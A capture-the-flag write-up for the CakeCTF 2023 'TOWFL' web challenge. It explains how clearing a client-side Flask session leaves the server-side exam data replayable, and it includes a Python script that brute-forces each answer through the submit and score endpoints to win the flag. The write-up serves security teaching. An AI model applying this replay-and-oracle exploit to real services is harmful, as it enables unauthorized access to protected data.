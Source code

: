 # TOWFL - Test of Wolf as a Foreign Language

This challenge consists of a web application which provides a set of questions and answers to provide in order to get the flag:
more specificly, there are 10 "challenges" each consisting of 10 multiple choice questions, 4 possible answers per question.

`app.py`

```python
@app.route("/api/start", methods=['POST'])
def api_start():
    if 'eid' in flask.session:
        eid = flask.session['eid']
    else:
        eid = flask.session['eid'] = os.urandom(32).hex()

    # Create new challenge set
    db().set(eid, json.dumps([new_challenge() for _ in range(10)]))
    return {'status': 'ok'}
```

```python
def new_challenge():
    """Create new questions for a passage"""
    p = '\n'.join([lorem.paragraph() for _ in range(random.randint(5, 15))])
    qs, ans, res = [], [], []
    for _ in range(10):
        q = lorem.sentence().replace(".", "?")
        op = [lorem.sentence() for _ in range(4)]
        qs.append({'question': q, 'options': op})
        ans.append(random.randrange(0, 4))
        res.append(False)
    return {'passage': p, 'questions': qs, 'answers': ans, 'results': res}
```

```python
@app.route("/api/score", methods=['GET'])
def api_score():
    if 'eid' not in flask.session:
        return {'status': 'error', 'reason': 'Exam has not started yet.'}

    # Calculate score
    challs = json.loads(db().get(flask.session['eid']))
    score = 0
    for chall in challs:
        for result in chall['results']:
            if result is True:
                score += 1

    # Is he/she worth giving the flag?
    if score == 100:
        flag = os.getenv("FLAG")
    else:
        flag = "Get perfect score for flag"

    # Prevent reply attack
    flask.session.clear()

    return {'status': 'ok', 'data': {'score': score, 'flag': flag}}
```

As shown in the source code, the application is returning the flag if the user is able to answer correctly to each question and so obtain `score=100`. The problem is that questions and answers are just completely random text, and the correct answer is randomly chosen among the four possible answers.

```python
@app.route("/api/submit", methods=['POST'])
def api_submit():
    if 'eid' not in flask.session:
        return {'status': 'error', 'reason': 'Exam has not started yet.'}

    try:
        answers = flask.request.get_json()
    except:
        return {'status': 'error', 'reason': 'Invalid request.'}

    # Get answers
    eid = flask.session['eid']
    challs = json.loads(db().get(eid))
    if not isinstance(answers, list) \
       or len(answers) != len(challs):
        return {'status': 'error', 'reason': 'Invalid request.'}

    # Check answers
    for i in range(len(answers)):
        if not isinstance(answers[i], list) \
           or len(answers[i]) != len(challs[i]['answers']):
            return {'status': 'error', 'reason': 'Invalid request.'}

        for j in range(len(answers[i])):
            challs[i]['results'][j] = answers[i][j] == challs[i]['answers'][j]

    # Store information with results
    db().set(eid, json.dumps(challs))
    return {'status': 'ok'}
```

Looking at client-side code we see that when the answer are submitted by the user, the web application is sending the 10x10 matrix of answers to the API server (`/api/submit`) and after that is again invoking the API server to fetch the results (`/api/score`)

```javascript
async function submitAnswers() {
  // Submit answers
  let res = await fetch("/api/submit", {
    method: "POST",
    credentials: "include",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify(submission),
  });
  if (!res.ok) {
    alert("Server error");
    return;
  }
  let json = await res.json();
  if (json.status !== "ok") {
    alert(`Server error: ${json.reason}`);
    return;
  }

  // Get score
  res = await fetch("/api/score", {
    method: "GET",
    credentials: "include",
  });
  if (!res.ok) {
    alert("Server error");
    return;
  }
  json = await res.json();
  if (json.status !== "ok") {
    alert(`Server error: ${json.reason}`);
    return;
  }

  // Display score
  document.getElementById("exam").hidden = true;
  document.getElementById("score-value").innerText = `${json.data.score}`;
  document.getElementById("flag").innerText = json.data.flag;
  document.getElementById("score").hidden = false;
}
```

if we look again at how the `api_submit()` and `api_score()` are implemented we notice that:

1. `api_submit()` can be invoked anytime, and it will accept in the body the whole matrix of answers; everytime it is called, it will retrieve the corresponding user's exam data from the database and check for each given answer if it is correct or not and then store again inside the database, for each answer, the **result** of this check **(True/False)**:
    
    ```python
    challs[i]['results'][j] = answers[i][j] == challs[i]['answers'][j]

    # Store information with results
    db().set(eid, json.dumps(challs))
    ```

2. `api_score()` will retrieve the exam data from the database and check for each answer if the previously computed **result** is True or False: anytime the answer stored **result** is True, the score is incremented by one:
   
   ```python
    # Calculate score
    challs = json.loads(db().get(flask.session['eid']))
    score = 0
    for chall in challs:
        for result in chall['results']:
            if result is True:
                score += 1
   ```

    - this function should be theoretically invoked only once the exam is finished and then, for that specific user `eid` and **exam** and after that all the associated exam data should be deleted from the database in order to avoid replay attacks:

        ```python
         # Prevent reply attack
        flask.session.clear()
        ```
    - the vulnerability of the application is determined by the previous line of code: `session.clear()` is not deleting the actual session, but only erasing that specific session's data (answers validation data in particular)
  
This implies that `api_submit()` can be invoked during the exam to check if each given answer is the correct one or not, until all the complete answers are found.
This is achievable by simply calling, after each answer is submitted, `api_score()` to check if the score is increased or not from the previous value.

The exploit:

```python
import requests

start_exam_url = "http://towfl.2023.cakectf.com:8888/api/start"
start_exam = requests.post(start_exam_url)
session = start_exam.cookies.get_dict()["session"] 
cookie = {"session": session}

update_score_url = "http://towfl.2023.cakectf.com:8888/api/submit"
get_score_url = "http://towfl.2023.cakectf.com:8888/api/score"

answers = [["null"] * 10 for _ in range(10)]
score = 0

for i in range(10):
    for j in range(10):
        for new_answer in range(4):
            answers[i][j] = new_answer
            update_score = requests.post(url=update_score_url, cookies=cookie, json=answers)
            if update_score.status_code == 200:
                get_score = requests.get(url=get_score_url, cookies=cookie)
                if get_score.status_code == 200:
                    response = get_score.json()
                    if response["data"]["score"] == score + 1:
                        print(f"found a new valid answer for question #{j} of challenge #{i}")
                        score += 1
                        if response["data"]["score"] == 100:
                            print(response["data"])
                        break                    
```
```json
{'flag': '"CakeCTF{b3_c4ut10us_1f_s3ss10n_1s_cl13nt_s1d3_0r_s3rv3r_s1d3}"', 'score': 100} 
```